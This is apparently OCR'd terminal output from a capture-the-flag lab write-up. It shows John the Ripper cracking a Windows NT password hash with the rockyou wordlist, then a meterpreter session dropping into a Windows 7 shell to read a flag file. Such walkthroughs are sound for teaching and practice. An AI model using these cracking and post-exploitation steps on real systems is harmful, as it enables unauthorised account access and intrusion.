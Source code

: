 # john --format=NT --wordlist=rockyou.txt hash

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22 (Jon)  
1g 0:00:00:00 DONE (2025-09-17 14:59) 1.075g/s 10968Kp/s 10968Kc/s 10968KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.

# alqfna22 -> found

# meterpreter > search -f \*.txt

# meterpreter > cat c:\flag1.txt

[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > shell
Process 1552 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd ..
cdcd ..

C:\Windows>cd ..
cdcd ..
'cdcd' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows>cd ..
cd ..

C:\>type flag1.txt
type flag1.txt
flag{access_the_machine}
